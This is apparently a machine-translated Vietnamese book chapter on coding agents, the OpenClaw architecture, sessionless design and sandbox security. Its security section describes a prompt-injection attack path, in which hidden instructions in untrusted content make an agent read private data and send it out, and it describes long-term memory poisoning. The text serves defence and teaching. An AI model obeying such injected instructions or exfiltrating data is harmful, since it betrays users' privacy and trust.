# Coding Agent và tạo mã

Các chương trước đi sâu vào kỹ thuật ngữ cảnh (Chương 2 và 3) và thiết kế công cụ (Chương 4). Chương này kết hợp các thành phần này để trả lời một câu hỏi cốt lõi: **Kiến trúc của Agent đa năng có thể xử lý mọi tác vụ là gì?**

Câu trả lời là: **General Agent** nhắm vào các tác vụ đang mở. Cốt lõi của nó là **Coding Agent**(Agent có thể viết, sửa đổi và thực thi mã độc lập) cùng với **hệ thống tệp** - Agent, một không gian làm việc dùng để lưu trữ mã, dữ liệu, bộ nhớ và kết quả trung gian, tương tự như cách các lập trình viên sử dụng các thư mục để quản lý dự án trên máy tính. Nhận định này xuất phát từ xác minh thực tế trong ngành - từ Manus đến OpenClaw, Agent có mục đích chung theo định hướng nhiệm vụ mở thành công đều tuân theo cùng một mô hình: xây dựng thời gian chạy Coding Agent với một số lượng nhỏ các công cụ có mục đích chung (thực thi mã, đọc và ghi tệp, tìm kiếm) đồng thời áp dụng tự động hóa trình duyệt, tìm kiếm mạng và các mô-đun khả năng khác lên trên nó. Các ranh giới áp dụng của phán quyết này sẽ được thảo luận cụ thể ở cuối phần "Từ Manus đến OpenClaw".

Tại sao việc tạo mã lại chịu trách nhiệm cho việc này? Bởi vì nó không chỉ là một công cụ trong hộp công cụ mà còn là một siêu khả năng có thể tự động tạo ra các công cụ và khả năng mới trong thời gian chạy. Nửa sau của chương này (phần "Mã: Siêu khả năng của Generic Agent") sẽ mở rộng đầy đủ về khái niệm này và sáu hướng của nó.

Giá trị của mã đối với Agent được phản ánh ở hai cấp độ. **Tư duy**, mã hình thức khiến tư duy rất khắt khe - "Tuổi trên 18 và đã được xác thực bằng tên thật" có thể được mô tả bằng ngôn ngữ tự nhiên với nhiều cách hiểu và không có sự mơ hồ khi viết là `age > 18 and is_verified`. Về mặt **biểu thức**, một đoạn mã có thể chạy tự nó là bằng chứng về tính tự nhất quán về mặt logic và kết quả thực thi cung cấp các tiêu chuẩn khách quan về đúng sai - đây là điều mà ngôn ngữ tự nhiên không thể làm được.

Chương này bắt đầu với các khả năng cơ bản của Coding Agent và kiến trúc Agent chung (OpenClaw), sau đó trình bày ứng dụng tạo mã trong các tình huống khác nhau - từ tư duy toán học, tạo nội dung đến các siêu khả năng cấp hệ thống.

## Coding Agent

### Mã hóa là khả năng cơ bản của Agent

**Tạo mã không phải là bằng sáng chế cho một số Agent chuyên dụng mà là một khả năng cơ bản mà mọi Agent thông thường đều phải có**. Với sự hỗ trợ của mô hình SOTA hiện tại, việc có khả năng mã hóa cơ bản không yêu cầu kiến trúc phức tạp.

Hãy xem xét một nhiệm vụ điển hình: "sắp xếp tất cả các ý kiến TODO còn lại trong kho, phân loại chúng theo mức độ ưu tiên và phát sinh vấn đề". Để hoàn thành vấn đề này, bạn cần duyệt cấu trúc thư mục (ls/glob), đọc mã (đọc), sửa đổi tệp (edit/write), chạy lệnh (bash) và tìm kiếm chế độ (grep/search). Năm loại hoạt động này bao gồm hầu hết tất cả các hành động cốt lõi của Coding Agent, đây cũng là nguồn gốc của bảy công cụ sẽ được mở rộng bên dưới. Nói một cách chính xác, năm loại hoạt động này đương nhiên tương ứng với sáu công cụ; Trình thông dịch mã thứ bảy tương ứng với các hoạt động như "thực thi mã/phép tính". Trong một số triển khai, nó chỉ được hợp nhất với Bash - bảy công cụ là một bộ tham chiếu được tiêu chuẩn hóa và không nhất thiết phải tương ứng chặt chẽ với năm loại hoạt động.

Một Coding Agent cơ bản chỉ cần được trang bị bảy công cụ cốt lõi sau:

1. **Trình thông dịch mã**: Cung cấp môi trường hộp cát biệt lập (hộp cát, nghĩa là không gian chạy an toàn cách ly với hệ thống chính, trong đó mã sẽ không ảnh hưởng đến máy chủ ngay cả khi xảy ra lỗi) và thực thi mã Python một cách an toàn
2. **Bash Shell (Thiết bị đầu cuối dòng lệnh)**: Thực thi các lệnh trong thiết bị đầu cuối, chẳng hạn như chạy các trường hợp thử nghiệm và xử lý các tệp định dạng đặc biệt
3. **Công cụ đọc tệp**: Đọc mã, cấu hình, tài liệu, nhật ký, v.v.
4. **Công cụ ghi tệp**: Tạo tệp mới hoặc viết lại hoàn toàn các tệp hiện có
5. **Công cụ chỉnh sửa tệp**: Thực hiện sửa đổi một phần đối với các tệp hiện có, đây là hoạt động cốt lõi của việc lặp lại và bảo trì mã
6. **Công cụ tìm kiếm tên tệp (Glob)**: Định vị nhanh các tệp mục tiêu trong hệ thống tệp thông qua khớp mẫu, ví dụ: sử dụng ` **/*.py` để tìm tất cả các tệp Python trong dự án
7. **Công cụ tìm kiếm nội dung file (Grep)**: Tìm kiếm một mẫu văn bản cụ thể trong nội dung file, chẳng hạn như tìm kiếm tất cả các dòng mã gọi một hàm nhất định

Bảy công cụ này tạo thành một hộp công cụ hoàn chỉnh nhưng tối giản, có thể được tích hợp một cách hiệu quả về mặt chi phí vào hầu hết mọi hệ thống Agent. Về mặt triển khai, chúng có thể được hiển thị dưới dạng dịch vụ công cụ được tiêu chuẩn hóa thông qua giao thức MCP được giới thiệu trong Chương 4. Lưu ý rằng bộ công cụ này là cấu hình cơ bản duy nhất của Coding Agent, khác với năm phân loại công cụ chung trong Chương 4 (nhận thức/thực thi/cộng tác/kích hoạt sự kiện/giao tiếp người dùng) được chia theo hướng gọi và bản chất vai trò - bảy công cụ cốt lõi chủ yếu bao gồm hai loại nhận thức và thực thi. Người đọc có thể hỏi: Còn ba loại nhu cầu: cộng tác, kích hoạt sự kiện và giao tiếp với người dùng thì sao? - Trong Coding Agent thường được xử lý bởi khung Agent (chứ không phải lớp công cụ), ví dụ: Các đại biểu Agent con được quản lý bằng logic điều phối của khung thay vì thông qua các công cụ cộng tác chuyên dụng.

Sử dụng tác vụ đơn giản nhất để xem bảy công cụ này phối hợp với nhau như thế nào. Giả sử người dùng nói "Hãy giúp tôi sắp xếp tất cả các nhận xét TODO trong dự án thành một danh sách":

```
Agent (suy nghĩ): Cần tìm tất cả các dòng code có chứa TODO.
Tác nhân → Grep("TODO", glob="**/*.py") # Tìm kiếm nội dung tệp
Công cụ trả về:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Tác nhân (suy nghĩ): Tìm thấy 3 TODO, tổng hợp thành danh sách và ghi vào file.
Agent → Write("TODO_LIST.md", content="...") # Viết file
Công cụ trả về: file đã tạo

Tác nhân: Đã hoàn thành, tìm thấy tổng cộng 3 mục TODO và danh sách được lưu trong TODO_LIST.md.
```

Toàn bộ quá trình chỉ sử dụng 2 công cụ: Grep (tìm kiếm nội dung) và Write (ghi file). Nếu tác vụ phức tạp hơn - chẳng hạn như "đếm số lượng TODO trong mỗi mô-đun và vẽ biểu đồ" - Agent cũng sẽ sử dụng Trình thông dịch mã để thực thi mã Python để thống kê và vẽ. Mặc dù bảy công cụ này rất đơn giản nhưng chúng có thể được kết hợp để hoàn thành nhiều nhiệm vụ rất đa dạng.

Tại sao mọi Agent chung đều có khả năng mã hóa? Bởi vì việc tạo mã không chỉ đơn thuần là viết chương trình—nó còn là một công cụ giải quyết vấn đề có mục đích chung. Khi gặp suy luận toán học, bạn có thể viết một đoạn mã đưa cho người giải để tính ra đáp án chính xác; bạn cần củng cố các quy tắc kinh doanh và mã chính xác hơn nhiều so với mô tả bằng ngôn ngữ tự nhiên; nếu bạn thiếu một công cụ nào đó, bạn có thể viết một công cụ tạm thời; nếu định dạng dữ liệu thay đổi, logic phân tích cú pháp sẽ được tạo động. Những kịch bản này sẽ được phát triển lần lượt trong phần còn lại của chương này. Agent với khả năng mã hóa cơ bản, ngay cả khi chỉ có bảy công cụ đơn giản trên trong hộp công cụ, vẫn có thể linh hoạt mở rộng khả năng của nó khi gặp nhu cầu mới.

### Case: Từ Manus đến OpenClaw - Coding kernel của tướng Agent

Sản phẩm phổ quát Agent do Manus đại diện tích hợp ba khả năng chính là Nghiên cứu sâu (nghiên cứu chuyên sâu), Computer Use (điều khiển máy tính) và Mã hóa (tạo mã) vào một hệ thống, nêu bật thông tin chi tiết đã được xác minh nhiều lần bởi nhiều loại hình thực hành: **Coding Agent cộng với hệ thống tệp là nền tảng kỹ thuật cốt lõi của phổ quát dựa trên nhiệm vụ mở Agent**. Dự án nguồn mở OpenClaw cũng áp dụng ý tưởng tương tự và thể hiện mô hình kiến trúc này bằng các thực tiễn nguồn mở.

Tại sao Coding Agent là lõi mà không phải hai cái còn lại? Bởi vì hầu hết việc tạo nội dung hiệu quả cuối cùng đều bắt nguồn từ mã. PPT về cơ bản là mã ở định dạng OOXML (Office Open XML, một tiêu chuẩn mở cho các tài liệu văn phòng do Microsoft đưa ra). Tài liệu Word và báo cáo PDF có thể được tạo thông qua mã. Phân tích và trực quan hóa dữ liệu được hoàn thành bằng tập lệnh Python. Ngay cả trình tự thao tác trình duyệt thành công trong thao tác GUI cũng có thể được củng cố thành trình tự có thể sử dụng lại. Mã RPA (Tự động hóa quy trình bằng robot) (xem Chương 9 để biết chính Computer Use và Chương 8 để biết cơ chế hóa rắn của chuỗi hoạt động). Việc tìm kiếm và tổng hợp thông tin của Deep Research có thể đạt được thông qua phân tích cú pháp và yêu cầu web dựa trên mã. Mặc dù Computer Use linh hoạt hơn nhưng chi phí, độ trễ và độ ổn định lại thấp hơn nhiều so với việc hoàn thành cùng một thao tác trực tiếp thông qua mã hoặc API. Tạo mã là cơ sở khả năng hiệu quả nhất, chi phí thấp nhất và có thể tái sử dụng nhiều nhất.


 trong kiến trúc OpenClaw


Sử dụng luồng thực thi cụ thể để hiểu kiến trúc này. Giả sử người dùng yêu cầu “Giúp tôi phân tích số liệu bán hàng quý trước và tạo báo cáo tóm tắt”:

1. **Đọc bộ nhớ**: Agent đọc `MEMORY.md` và nhận thấy rằng người dùng thích báo cáo ở định dạng PDF. Nguồn dữ liệu là Google Trang tính
2. **Công cụ điều chỉnh**: Lấy phương thức sử dụng Google Trang tính API thông qua mô-đun tìm kiếm mạng và tải xuống dữ liệu thông qua thực thi mã
3. **Viết mã**: Sử dụng Python để tạo tập lệnh phân tích dữ liệu (tổng hợp gấu trúc, trực quan hóa matplotlib)
4. **Tạo sản phẩm**: Ghi kết quả phân tích vào `report.pdf` và ghi biểu đồ vào thư mục `charts/`
5. **Cập nhật bộ nhớ**: Ghi "Dữ liệu bán hàng của người dùng nằm trong Google Sheets, ID: xxx" trong `MEMORY.md`, lần sau không cần hỏi lại

Trong toàn bộ quá trình, hệ thống tệp là trung tâm của luồng thông tin - ký ức được đọc từ tệp, sản phẩm được ghi vào tệp và trải nghiệm cũng được lưu dưới dạng tệp.

**Hệ thống tệp đóng vai trò là xương sống của Agent**. Trong thiết kế của OpenClaw, hệ thống tệp không chỉ là một kho lưu trữ dữ liệu - nó là xương sống của bộ nhớ, kiến thức và khả năng của Agent. Bộ nhớ dài hạn dành cho Agent được lưu trữ trong `MEMORY.md` (thông tin cấp cao và tùy chọn người dùng) và nhật ký Markdown được lưu trữ theo ngày. Việc chọn Markdown thay vì cơ sở dữ liệu vector có vẻ phản trực giác nhưng thực ra lại cực kỳ hiệu quả: người dùng có thể trực tiếp mở file để đọc và sửa đổi bộ nhớ của Agent (nếu Agent nhớ sai thì chỉ cần xóa dòng đó đi), Markdown tự nhiên giữ lại thứ tự thời gian để tránh nhầm lẫn về thời gian trong truy xuất ngữ nghĩa, đồng thời có thể phiên bản và khôi phục lại Git.

Quan trọng hơn, Agent có khả năng ghi tệp, nghĩa là nó có thể **tự phát triển** bằng cách ghi tệp. Khi Agent thực hiện một nhiệm vụ lần đầu tiên và phát hiện ra thông tin quan trọng mà trước đó nó không biết (ví dụ: khi gọi đến ngân hàng và phát hiện ra rằng bên kia yêu cầu địa chỉ ngân hàng để xác minh danh tính), nó sẽ ghi trải nghiệm này vào cơ sở kiến thức và tự động tải nó vào lần tiếp theo khi thực hiện nhiệm vụ tương tự. Cơ chế “bạn càng sử dụng nó càng thông minh hơn” về cơ bản là cách thực hành cụ thể của mô hình External Learning (học bên ngoài tham số mô hình) sẽ được thảo luận sâu trong Chương 8.

**Ranh giới áp dụng: Agent nào sử dụng Mã hóa làm kiến trúc cốt lõi**. "Coding Agent là cốt lõi của Agent phổ quát" chủ yếu có thể áp dụng cho Agent phổ quát nhắm đến các nhiệm vụ mở - nghiên cứu chuyên sâu, tạo nội dung, xử lý dữ liệu và các tình huống khác trong đó ranh giới nhiệm vụ không chắc chắn và dạng sản phẩm đa dạng. Trong những trường hợp này, không thể liệt kê trước tất cả các công cụ cần thiết và việc tạo mã dưới dạng siêu khả năng sẽ cung cấp con đường tiết kiệm nhất để tự động mở rộng ranh giới của các khả năng, vì vậy nó là cốt lõi của kiến trúc. Loại Agent khác - dịch vụ khách hàng Agent trong trường dọc, trợ lý giọng nói - có không gian tác vụ tương đối khép kín và kiến trúc cốt lõi được xây dựng xung quanh các quy trình kinh doanh cố định, công cụ miền và chiến lược đối thoại, trong đó mã giống như một công cụ trong hộp công cụ hơn là trung tâm kiến trúc (trong τ-bench (một bài kiểm tra điểm chuẩn mô phỏng các kịch bản dịch vụ khách hàng, xem bên dưới để biết chi tiết), ví dụ ở phần sau của chương này, mã đóng vai trò của một chính sách công cụ xác minh). Nhưng ngay cả trong trường hợp sau, mã hóa là một khả năng cơ bản không thể thiếu: tính toán chính xác, xử lý dữ liệu và xác minh quy tắc đều không thể tách rời khỏi nó. Điều này lặp lại khẳng định trong phần trước rằng "Mã hóa là khả năng cơ bản của Agent": việc mã hóa có phải là kiến trúc cốt lõi hay không sẽ khác nhau tùy theo kịch bản, nhưng việc có khả năng mã hóa là điểm mấu chốt chung cho tất cả Agent.

### Thiết kế không phiên

Tiếp theo, chúng tôi thảo luận về hai thiết kế kiến trúc bảo mật và tương tác "sẵn sàng sử dụng", thoạt nhìn không liên quan gì đến chủ đề Coding Agent. Tuy nhiên, họ trực tiếp xác định cách Agent quản lý môi trường thực thi mã và trạng thái hệ thống tệp, đây là mối quan tâm cốt lõi của Coding Agent. (Bạn đọc muốn hiểu từng bước cách hoạt động của Coding Agent có thể bỏ qua phần "Quy trình tổng thể của Coding Agent" bên dưới, sau đó quay lại đây để xem thiết kế tương tác và bảo mật.)

OpenClaw áp dụng thiết kế **Sessionless** (không có phiên): không có các bước như cài đặt, đăng nhập và "mở ứng dụng". Đại lý luôn trực tuyến và người dùng có thể nhận được phản hồi bất kỳ lúc nào bằng cách gửi tin nhắn qua nền tảng nhắn tin mà họ đang sử dụng. Biểu mẫu tương tác này và Cổng vào Bạn có thể thực hiện được điều đó. sẽ không được mở rộng ở đây. Điều đáng nhấn mạnh là tiền đề cho việc thành lập hình thức này là mô hình lớn đã đủ trưởng thành để phục vụ như một "cơ sở thông minh" mới - tương tự như hệ điều hành truyền thống che chắn phần cứng và cung cấp khả năng trừu tượng hóa thông minh thống nhất cho Tác nhân lớp trên. Chính nhờ cơ sở này mà hình thức "vĩnh viễn + đáp ứng" có thể được thiết kế với chi phí thấp.

Đối với Coding Agent, khó khăn kỹ thuật thực sự của Sessionless là làm thế nào môi trường thực thi mã và trạng thái hệ thống tệp tồn tại qua các tin nhắn. Hai tin nhắn của người dùng có thể cách nhau vài phút hoặc vài ngày và hoạt động của Agent dựa vào một số lượng lớn các trạng thái tiềm ẩn: các gói phụ thuộc được cài đặt trong hộp cát, thư mục làm việc và các biến môi trường trong phiên cuối, máy chủ phát triển chạy trong nền và các tệp được viết một nửa. Cách tiếp cận của OpenClaw là chia trạng thái thành hai cấp quản lý. **Trạng thái hệ thống tệp có tính ổn định tự nhiên** - thư mục không gian làm việc được gắn vào bộ lưu trữ liên tục bên ngoài hộp cát và mã, dữ liệu cũng như các sản phẩm trung gian sẽ không bị mất khi gửi thư hoặc khi khởi động lại hộp cát. Đây là một ý nghĩa khác của "hệ thống tệp đóng vai trò là trung tâm Agent". **Trạng thái quy trình được duy trì hoặc được xây dựng lại theo yêu cầu** - hộp cát và phiên cuối trong đó vẫn chạy trong thời gian hoạt động, tránh khởi động nguội, chuyển đổi lại thư mục và kích hoạt lại môi trường ảo cho mỗi tin nhắn; nó bị phá hủy sau khi hết thời gian chờ để tái chế tài nguyên. Trước khi hủy, trạng thái môi trường có thể tuần tự hóa (thư mục làm việc, biến môi trường, danh sách tác vụ nền) được ghi vào tệp không gian làm việc và sẽ được Agent xây dựng lại theo bản ghi khi nó được đánh thức vào lần tiếp theo. Phiên cuối liên tục được thảo luận trong "Tính bền vững trạng thái của môi trường thực thi lệnh" ở phần sau của chương này là bản sao của cơ chế này trong một nhiệm vụ duy nhất; Sessionless mở rộng vấn đề tương tự sang thang thời gian giữa các tin nhắn và nhiều ngày.

Sessionless không phải là không cần bảo trì - điều đó có nghĩa là mỗi tin nhắn người dùng cần tải lại toàn bộ trajectory và trạng thái làm việc, do đó, nó có yêu cầu cao hơn về hiệu quả tuần tự hóa trạng thái và chiến lược nén trajectory; Bản thân các nguyên tắc thiết kế nén trajectory đã được thảo luận trong Chương 2 "Policy nén ngữ cảnh", chương này tập trung vào sự cân bằng kỹ thuật trong kiến trúc Sessionless.

### Ba yếu tố chết người, Policy cấp phép và bộ nhớ bền bỉ

Mô hình “đại lý có chủ quyền” này cũng đặt ra những thách thức an ninh nghiêm trọng. Coding Agent có quyền đọc và ghi tệp, thực thi lệnh và truy cập mạng, điều đó có nghĩa là một khi các lệnh độc hại được đưa vào, nó có thể gây ra những tổn thất không thể khắc phục được. Nhà phát triển và nhà nghiên cứu độc lập Simon Willison tóm tắt rủi ro này là "Ba yếu tố chết người" nổi tiếng - khi ba yếu tố này hiện diện cùng nhau, một vòng tấn công khép kín hoàn chỉnh được hình thành và hệ thống được coi là có rủi ro cao:

1. **Truy cập dữ liệu riêng tư** - Agent có thể đọc tệp người dùng và trình quản lý mật khẩu
2. **Tiếp xúc với nội dung không đáng tin cậy**– Các email và trang web đã xử lý có thể chứa tải trọng độc hại
3. **Khả năng giao tiếp bên ngoài** - có thể gửi email và thực thi lệnh

Do đó, đường dẫn tấn công đã bị đóng: các lệnh độc hại ẩn trong nội dung không đáng tin cậy sẽ xâm nhập vào Agent, khiến nó đọc dữ liệu riêng tư rồi gửi đi qua kênh bên ngoài. Lưu ý rằng bản thân việc có cả ba yếu tố đã đủ nguy hiểm mà không cần thêm bất kỳ điều kiện nào. Trên cơ sở đó, tác giả bổ sung thêm chiều thứ tư- **ký ức liên tục**. Song song đó, đây không phải là điều kiện cần thứ tư mà là bộ khuếch đại cuộc tấn công: kẻ tấn công có thể viết những thành kiến hoặc hướng dẫn độc hại dường như vô hại vào bộ nhớ dài hạn của Agent, ẩn nấp qua các phiên và kích hoạt lại vào đúng thời điểm, nâng cấp cuộc tấn công một lần thành độ trễ và khuếch đại dài hạn.

Bốn điểm này có thể được tóm tắt thành bốn loại ranh giới: ranh giới dữ liệu, ranh giới tin cậy đầu vào, ranh giới tác động đầu ra và ranh giới giữa các phiên. Một Agent cục bộ có đầy đủ đặc quyền như OpenClaw có cả bốn, vì vậy việc bảo vệ an ninh đã trở thành một thách thức cốt lõi mà Agent đó phải đối mặt.

Điều này cũng giải thích tại sao Agent thương mại nguồn đóng (chẳng hạn như Claude Cowork (Anthropic) là một Agent chung cho công việc tri thức và một tác nhân đại lý sử dụng lại kiến trúc Claude Code, có thể đọc và ghi các tệp cục bộ và hoàn thành các tác vụ nhiều bước trên nhiều ứng dụng văn phòng)) chọn chiến lược cấp phép bảo thủ - không phải vì công nghệ là không thể, nhưng vì rủi ro bảo mật quá cao. Đối mặt với mối đe dọa tiêm nhiễm kịp thời, chỉ riêng việc lọc đầu vào về cơ bản là không thể ngăn chặn nó. Vấn đề không phải là xác định tất cả các cuộc tấn công mà là ngăn Agent thực sự thực hiện các hành động nguy hiểm ngay cả khi nó được tiêm vào. Hệ thống phòng thủ đã được thiết lập thành các lớp trong hai chương đầu tiên: **Phòng thủ lớp ngữ cảnh** - chú thích nguồn nội dung bên ngoài, cách ly vai trò có cấu trúc, làm sạch đầu vào - xem phần prompt injection nhở trong Chương 2; **Bảo vệ lớp thực thi** - Đánh giá độc lập của Sidecar, Con người trong vòng lặp, phân tách các đặc quyền và quyền tối thiểu - xem Chương 4. Agent trong cùng ngữ cảnh rất khó xác định xem nó có bị chèn hay không, vì vậy các hoạt động quan trọng phải được xem xét bởi các cơ chế bên ngoài ngữ cảnh. Nguyên tắc này xuyên suốt cả hai chương. Chương này chỉ thêm mức tăng ba điểm duy nhất cho Coding Agent:

- **Phân tích ngữ nghĩa lệnh** - Sự bùng nổ tổ hợp của các lệnh Shell làm cho danh sách đen từ khóa trở nên vô dụng và tác dụng thực sự của lệnh phải được hiểu ở lớp ngữ nghĩa (phần "Dự án khai thác" sẽ được mở rộng sau trong chương này);
- **Cách ly hộp cát và kiểm soát thoát mạng** - Thực thi mã là bề mặt tấn công duy nhất của Coding Agent. Xem phần tiếp theo để biết về kỹ thuật lựa chọn mức cách ly và chính sách đầu ra;
- **Bảo vệ chéo phiên của bộ nhớ liên tục** - Đây là mục mở rộng mà chương này đặc biệt nhấn mạnh ngoài ba yếu tố chí mạng: nội dung được ghi vào bộ nhớ dài hạn phải trải qua quá trình đánh giá tin cậy giống như nội dung bên ngoài để ngăn chặn các lệnh độc hại ẩn nấp trong `MEMORY.md` và có hiệu lực trong thời gian dài.

Ba điểm tăng dần này lần lượt thuộc về ba cấp độ xác minh, thực thi và dữ liệu, đồng thời bổ sung cho hệ thống phòng thủ trong hai chương đầu tiên. Các chiến lược này không thể loại bỏ hoàn toàn rủi ro nhưng chúng có thể làm giảm bề mặt tấn công của Agent.

**Bản đồ nội dung an toàn của chương**. Cuộc thảo luận về bảo mật của Coding Agent nằm rải rác ở một số nơi trong chương này. Đây là mục lục để giúp người đọc dễ dàng kết nối: Phần này (Ba yếu tố chết người và ký ức dai dẳng) phác thảo *Mô hình mối đe dọa* - rủi ro nào là nguy hiểm nhất; phần tiếp theo "Hộp cát thực thi mã lựa chọn kỹ thuật" nằm trong *Túi cách ly* - Lựa chọn kỹ thuật các lần thoát mạng, hệ thống tệp, tài nguyên và phiên liên tục; "Khai thác" Phần "Kỹ thuật" bắt đầu bằng *bảo vệ thời gian thực thi* - phân tích cú pháp ngữ nghĩa của các lệnh (chứ không phải danh sách đen từ khóa), thực thi suy đoán để thực hiện kiểm tra bảo mật "vô hình" và hai chủ đề mở rộng chung khác về Agent an toàn, có thể đọc tùy chọn: "Agent trung thành với ai" (trung thành với sự ủy quyền của nhiều bên) và "Khi mã do chính AI viết không đáng tin cậy" (di chuyển ranh giới tin cậy xuống lớp dữ liệu). Các cuộc thảo luận này có điểm nhấn riêng và bổ sung cho nhau và không cần phải đọc theo thứ tự.

### Lựa chọn dự án cho hộp cát thực thi mã

Chương này liên tục lấy "hộp cát" làm tiền đề - Trình thông dịch mã trong số bảy công cụ cốt lõi yêu cầu một môi trường biệt lập và các chính sách bảo mật dựa vào sự cô lập. Nhưng hộp cát không phải là một công tắc mà là một loạt các quyết định kỹ thuật. Chương 4 đã trả lời "Tại sao phải cách ly?", nguyên tắc phân loại của cơ chế cách ly (phả hệ ba cấp của cách ly cấp quy trình, bộ chứa và microVM), cũng như quy tắc lựa chọn "cấp quy trình cho máy cục bộ cá nhân, bộ chứa cho đám mây một bên thuê, microVM/gVisor cho nhiều bên thuê hoặc mã không quen thuộc"; phần này sẽ không lặp lại phả hệ này, chỉ Coding Agent. Có bốn phần tăng dần không thể tránh khỏi khi triển khai nhưng chưa được thảo luận trong Chương 4: cách quản lý các lần thoát mạng, số lượng hệ thống tệp cần gắn kết, cách giới hạn tài nguyên và cách điều hòa các phiên liên tục và cách ly.

**Kiểm soát thoát mạng**. Đây là mục dễ bị bỏ qua nhất nhưng quan trọng nhất: ngắt kết nối mạng theo mặc định và giải phóng các đích đến có giới hạn (nguồn quản lý gói, trang tài liệu, API được tác vụ yêu cầu rõ ràng) thông qua proxy danh sách trắng theo yêu cầu. Nhìn lại yếu tố thứ ba trong ba yếu tố quan trọng - "có khả năng giao tiếp bên ngoài" - kiểm soát lối ra mạng là biện pháp bảo vệ ở cấp độ thực thi của nó: ngay cả khi việc prompt injection nhở thành công và mã độc đọc dữ liệu nhạy cảm trong hộp cát, nó không thể được truyền đi nếu không có lối ra. Cắt bỏ các kênh gửi dữ liệu là một tuyến phòng thủ chắc chắn hơn nhiều so với việc cố gắng xác định mọi lần tiêm.

**Phạm vi cách ly hệ thống tệp**. Thư mục mã nguồn được gắn theo cách chỉ đọc (Agent sửa đổi mã thông qua các công cụ chỉnh sửa và các bản vá được tạo sẽ được xem xét và đưa vào đĩa hoặc bản sao được gắn vào một không gian làm việc có thể ghi) và một thư mục không gian làm việc có thể ghi riêng biệt chứa các sản phẩm được tạo và các tệp trung gian; các tệp thông tin xác thực (`~/.ssh`, khóa, mã thông báo) hoàn toàn không được gắn vào hộp cát - dữ liệu vô hình không thể bị rò rỉ, tương ứng với yếu tố đầu tiên trong ba yếu tố nghiêm trọng.

**Giới hạn tài nguyên và thời gian chờ**. CPU, bộ nhớ, hạn ngạch đĩa cộng với thời gian chờ của đồng hồ treo tường, bảo vệ chống lại các vòng lặp vô hạn, bom phân nhánh (quy trình tự sao chép điên cuồng cho đến khi hệ thống ngừng hoạt động) và ghi đĩa không giới hạn. Một chi tiết thực tế: vi phạm thời gian chờ và giới hạn sẽ trả lại các lỗi có cấu trúc cho Agent ("Việc thực thi đã bị chấm dứt sau hơn 120 giây, với kết quả cuối cùng như sau...") thay vì âm thầm giết chết quy trình, tạo cơ hội cho Agent sửa lại chiến lược ở vòng tiếp theo.

**Điều hòa các phiên liên tục với sự cô lập**. Ở phần sau của chương này, "Sự kiên trì của trạng thái trong môi trường thực thi lệnh" ủng hộ việc duy trì các phiên cuối cùng tồn tại lâu dài, trong khi nguyên tắc cô lập ủng hộ việc loại bỏ môi trường—có sự căng thẳng giữa hai điều này. Ý tưởng điều hòa là: **Phiên được duy trì bên trong hộp cát**, vòng đời của phiên cuối không vượt quá vòng đời của hộp cát và trạng thái phiên không bao giờ thoát sang máy chủ; đối với các kịch bản yêu cầu khôi phục trong khoảng thời gian dài (chẳng hạn như kiến trúc Không phiên được đề cập ở trên), hãy dựa vào ảnh chụp nhanh hộp cát hoặc "sự lưu giữ tệp vùng làm việc + tái thiết môi trường bằng tập lệnh" để khôi phục trạng thái, thay vì kéo dài thời gian tồn tại của hộp cát vô thời hạn. Nói cách khác, những gì được duy trì là một mô tả trạng thái có thể kiểm tra được (tệp, tập lệnh, bảng kê khai) chứ không phải là một quy trình chạy không rõ ràng.

### Quy trình tổng thể của Coding Agent


